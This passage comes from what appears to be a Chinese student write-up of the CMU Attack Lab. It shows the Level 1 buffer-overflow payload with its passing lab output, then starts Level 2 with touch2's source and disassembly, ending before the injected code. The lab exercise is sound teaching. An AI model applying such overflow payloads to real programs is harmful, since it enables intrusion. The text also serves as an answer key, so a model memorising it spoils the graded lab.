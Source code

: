```
$ ./hex2raw < hex.txt > raw && ./ctarget -q -i raw
Cookie: 0x59b997fa
Touch1!: You called touch1()
Valid solution for level 1 with target ctarget
PASS: Would have posted the following:
  user id	bovik
  course	15213-f15
  lab	attacklab
  result	1:PASS:0xffffffff:ctarget:1:00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 C0 17 40 00 
```

## Level 2

### 要求

在 Level 2 中，要求执行的函数变为 `touch2()`。与上一关不同的是，`touch2()` 函数带有一个参数。其源代码如下：

```c
void touch2(unsigned val)
{
    vlevel = 2; /* Part of validation protocol */
    if (val == cookie) {
        printf("Touch2!: You called touch2(0x%.8x)\n", val);
        validate(2);
    } else {
        printf("Misfire: You called touch2(0x%.8x)\n", val);
        fail(2);
    }
    exit(0);
}
```

`cookie` 值即之前运行时提示的 `0x59b997fa`。

### 过程

刚开始的时候本菜鸡准备投机取巧：直接跳转到 `if (val == cookie)` 后的语句之处。不过可惜作者早就考虑到了，`validate` 函数中应该还会对 `val` 进行进一步检查，所以就凉了。

复杂一点的思路，便是我们要在构造的字符串中包含调用 `touch2()` 的汇编代码，同时让程序跳转到我们注入的代码处执行。因此我们先来看看 `touch2()` 的汇编代码：

```
(gdb) disas touch2
Dump of assembler code for function touch2:
   0x00000000004017ec <+0>:	  sub    $0x8,%rsp
   0x00000000004017f0 <+4>:	  mov    %edi,%edx
   0x00000000004017f2 <+6>:   movl   $0x2,0x202ce0(%rip)    # 0x6044dc <vlevel>
   0x00000000004017fc <+16>:  cmp    0x202ce2(%rip),%edi    # 0x6044e4 <cookie>
   0x0000000000401802 <+22>:  jne    0x401824 <touch2+56>
   0x0000000000401804 <+24>:  mov    $0x4030e8,%esi
   0x0000000000401809 <+29>:  mov    $0x1,%edi
   0x000000000040180e <+34>:  mov    $0x0,%eax
   0x0000000000401813 <+39>:  callq  0x400df0 <__printf_chk@plt>
   0x0000000000401818 <+44>:  mov    $0x2,%edi
   0x000000000040181d <+49>:  callq  0x401c8d <validate>
   0x0000000000401822 <+54>:  jmp    0x401842 <touch2+86>
   0x0000000000401824 <+56>:  mov    $0x403110,%esi
   0x0000000000401829 <+61>:  mov    $0x1,%edi
   0x000000000040182e <+66>:  mov    $0x0,%eax
   0x0000000000401833 <+71>:  callq  0x400df0 <__printf_chk@plt>
   0x0000000000401838 <+76>:  mov    $0x2,%edi
   0x000000000040183d <+81>:  callq  0x401d4f <fail>
   0x0000000000401842 <+86>:  mov    $0x0,%edi
   0x0000000000401847 <+91>:  callq  0x400e40 <exit@plt>
```